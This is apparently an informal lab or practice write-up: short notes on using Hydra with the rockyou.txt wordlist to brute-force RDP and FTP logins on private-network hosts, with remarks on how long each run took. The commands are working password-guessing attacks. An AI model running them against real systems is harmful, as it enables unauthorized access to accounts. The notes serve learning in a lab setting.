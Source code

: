 ![](media/redkev-39.png)

![](media/redkev-40.png)

[LeftHydra -l risk-analyst -P rockyou.txt 10.0.0.74 rdp

Slow goes one by one but I spend over 5 hours letting it run nonstop

hydra -l userlogin -P password-list-address ftp://<target-ip-address> -V   

Hydra -l vagrant -P rockyou.txt ftp://10.0.0.82 -V 

Faster and using ftp, 

I decided to run this later also and it was blazing fast but I should of start of sooner but it shouldn’t take too long.
